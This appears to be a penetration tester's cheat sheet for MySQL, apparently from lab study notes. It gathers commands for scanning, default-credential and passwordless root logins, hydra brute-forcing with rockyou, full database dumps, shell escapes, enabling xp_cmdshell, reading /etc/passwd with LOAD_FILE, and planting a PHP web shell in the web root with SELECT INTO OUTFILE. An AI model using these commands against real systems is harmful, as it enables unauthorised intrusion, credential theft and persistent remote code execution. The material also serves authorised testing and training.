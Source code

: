 # Nmap

```bash
sudo nmap $IP -sV -sC -p3306 --script mysql*
```

# Service Interaction

## mysql

### Local Access

```bash
mysql -u root 
# Connect to root without password

mysql -u root -p 
# A password will be asked

# Always test root:root credential
```

### Remote Access

```bash
mysql -h <Hostname> -u root

mysql -h <Hostname> -u root@localhost
```

### If running as root

```bash
mysql> select do_system('id');

mysql> \! sh
```

# Service Enumeration

## mysqldump

```bash
mysqldump -u user -p DBNAME
# inserire password

mysqldump -u admin -p admin --all-databases --skip-lock-tables 
```

# Brute Forcing

## hydra

```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $IP mysql -v
```

# MySQL server configuration file, command history and log files

```bash
# Unix
/var/www/html/configuration.php
my.cnf
/etc/mysql
/etc/my.cnf
/etc/mysql/my.cnf
/var/lib/mysql/my.cnf
~/.my.cnf
/etc/my.cnf

# Windows
/var/www/html/configuration.php
config.ini
my.ini
windows\my.ini
winnt\my.ini
<InstDir>/mysql/data/

# Command History
~/.mysql.history

# Log Files
connections.log
update.log
common.log
```

---

| **MySQL Command**   | **Description**   |
| --------------|-------------------|
| `mysql -u <user> -p<password> -h <IP address>` | Connect to the MySQL server. There should not be a space between the '-p' flag, and the password. |
| `show databases;` | Show all databases. |
| `use <database>;` | Select one of the existing databases. |
| `show tables;` | Show all available tables in the selected database. |
| `show columns from <table>;` | Show all columns in the selected database. |
| `select * from <table>;` | Show everything in the desired table. |
| `select * from <table> where <column> = "<string>";` | Search for needed string in the desired table. |

| **Command**                                                                                      | **Description**                                                                               |
| ------------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------- |
| `mysql -u julio -pPassword123 -h 10.129.20.13`                                                   | Connecting to the MySQL server.                                                               |
| `mysql> SHOW DATABASES;`                                                                         | Show all available databases in MySQL.                                                        |
| `mysql> USE htbusers;`                                                                           | Select a specific database in MySQL.                                                          |
| `mysql> SHOW TABLES;`                                                                            | Show all available tables in the selected database in MySQL.                                  |
| `mysql> SELECT * FROM users;`                                                                    | Select all available entries from the "users" table in MySQL.                                 |
| `sqlcmd> EXECUTE sp_configure 'show advanced options', 1`                                        | To allow advanced options to be changed.                                                      |
| `sqlcmd> EXECUTE sp_configure 'xp_cmdshell', 1`                                                  | To enable the xp_cmdshell.                                                                    |
| `sqlcmd> RECONFIGURE`                                                                            | To be used after each sp_configure command to apply the changes.                              |
| `mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'` | Create a file using MySQL.                                                                    |
| `mysql> show variables like "secure_file_priv";`                                                 | Check if the the secure file privileges are empty to read locally stored files on the system. |
| `mysql> select LOAD_FILE("/etc/passwd");`                                                        | Read local files in MySQL.                                                                    |
